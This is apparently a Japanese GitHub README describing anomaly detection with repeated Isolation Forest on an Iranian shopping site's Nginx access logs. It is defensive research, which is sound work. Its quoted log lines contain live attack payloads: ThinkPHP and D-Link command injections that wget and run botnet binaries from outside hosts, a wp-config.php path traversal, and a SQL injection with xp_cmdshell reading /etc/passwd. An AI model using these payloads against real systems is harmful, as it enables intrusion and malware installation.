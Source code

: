 # Walu(Web Application Log Unveiler)

https://www.scutum.jp/information/waf_tech_blog/2021/01/waf-blog-077.html
 
　上記Blog（WAF Tech Blog）から自分なりに調査した結果のメモ。

　ラベル付け無しに攻撃を検知したい。そのためには正常系から離れたデータ、つまり「外れ値」を攻撃と定義して、異常検知アルゴリズムを用いる。上記blogではIsolation forestを使用。データセットは[Harvard Dataverse](https://dataverse.harvard.edu/dataset.xhtml?persistentId=doi:10.7910/DVN/3QBYB5)にあるAccess.log.zip。イラン実在のショッピングサイトにおける2019年1月からの数日間のアクセスログをNginxにより取得。1036万行（3.3GB）。

　上記blogと同条件で取り出したデータから、ランダムに抽出した10000件のデータを2次元にマッピング（画像1）。データセットを調査するとScale-freeしている。[ipynb/viz01.ipynb](ipynb/viz01.ipynb) [[mybinder.org](https://mybinder.org/v2/gh/kenjiaiko/Walu/main?filepath=ipynb%2Fviz01.ipynb)]

<img src="ipynb/t-SNE10000.jpg" width="300">（画像1）

　異常検知において正常系と判断されるのは大きなクラスタ、よって小さいクラスタ群が外れ値となる。データセットがScale-freeしているため外れ値となったクラスタ群を集めて再度Isolation forestを適用すれば、さらなる外れ値が算出される。スコアの閾値を0.25にし、2回Isolation forestを適用すると

```
$ ./run.sh 2 0.25
```

```
$ head -n 2 data/result_by_ip.txt
0.186 185.222.202.118 - - [22/Jan/2019:09:15:46 +0330] "GET /public/index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=cd%20/tmp;wget%20http://185.222.202.118/bins/rift.x86;cat%20rift.x86%20%3E%20efjins;chmod%20777%20efjins;./efjins%20thinkphp HTTP/1.1" 301 178 "-" "python-requests/2.4.3 CPython/2.7.9 Linux/3.16.0-4-amd64" "-"
0.188 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　1,2行目に明確な攻撃がくる。61,62行目にはSELECT,UNIONを含んだもの。

```
0.261 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] "GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 1035 "-" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4" "-"
0.261 5.101.40.234 - - [23/Jan/2019:06:53:01 +0330] "GET /image/{{basketItem.id}}?type=productModel&wh=50x50&fhnz%3D1551%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 301 178 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.696.3 Safari/534.24" "-"
```

　次に専門家による特徴選択をしないケース。例えば特定の文字（Char）のCountのみを特徴とする場合。

```
$ python printspchars.py > features.txt
$ ./run.sh 2 0.30
```

　先頭から怪しいアクセスは続くが、明確なのは11行目以降。
 
```
0.204 108.61.86.94 - - [24/Jan/2019:13:08:01 +0330] "GET /login.cgi?cli=aa%20aa%27;wget%20http://108.61.86.94/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1" 400 166 "-" "Solstice/2.0" "-"
```

　それなりには攻撃アクセスが上位（低いスコア）になっている。ただし、先ほど2行目にあったアクセスは、こちらでは107行目：スコア0.344とかなり遅い登場。

```
0.344 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　当然、専門家が特徴を設定した方が良いが、適当な特徴でもそれなりに（分析には差し障りない程度に）良い結果が得られるようである。

### ラベル付け

- 上記BlogではJavaで書かれているが、それとほぼ同様のコードをpythonで書いた。[ipynb/viz02.ipynb](ipynb/viz02.ipynb)
- ラベルのない1036万行のデータから、Isolation forestを繰り返すことで742行にした。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)

　全ての外れ値が真に攻撃であるならこれでOKなのだが、当然そうではないので、ここからは人間が確認していく。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)の最初の29行ほどは/rapidGrails/jsonListリクエストが続く。まぁ攻撃ではないだろう。そして30行目に明確な攻撃が見つかる。
 
 ```
-0.7341514235140854 202.70.250.38 - - [24/Jan/2019:15:58:56 +0330] GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://185.255.25.168/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1\x00 400 166 - - -
```

　最初のパターンはindex.phpに対してshell_exec, wgetをするもの。他にも複数見つかる（32-50行目）。これをpattern1とする。続いて51行目。

```
-0.7335728824690786 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1 200 1035 - Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4 -
```

　UNION, SELECT, script, alertが入ったもの。明らかに攻撃を意図したアクセス。これをpattern2。その後pattern1が続き、126行目に再びpattern2が出てくる。そして206行目。

```
-0.6859619404158754 151.25.29.64 - - [22/Jan/2019:05:55:47 +0330] GET /login.cgi?cli=aa%20aa%27;wget%20http://217.61.5.226/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1 400 166 - Solstice/2.0 -
```

　login.cgi, wgetが入ったもの。これをpattern3。

